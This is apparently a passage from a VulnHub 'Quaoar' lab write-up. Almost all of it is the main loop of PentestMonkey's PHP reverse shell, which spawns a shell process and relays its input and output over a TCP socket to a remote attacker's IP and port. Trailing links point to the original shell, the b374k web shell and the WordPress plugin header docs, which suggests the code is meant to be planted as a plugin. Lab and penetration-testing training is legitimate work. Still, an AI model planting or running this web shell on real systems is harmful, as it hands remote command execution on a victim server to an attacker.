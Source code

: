  ```php
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
 ```

[VulnHub URL]: <https://www.vulnhub.com/entry/hackfest2016-quaoar,180/>
[PentestMonkey's PHP Shell]: <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>
[b374k shell]: <https://github.com/kieran-walker-0/b374k>
[WP Plugin Handbook]: <https://developer.wordpress.org/plugins/the-basics/header-requirements/>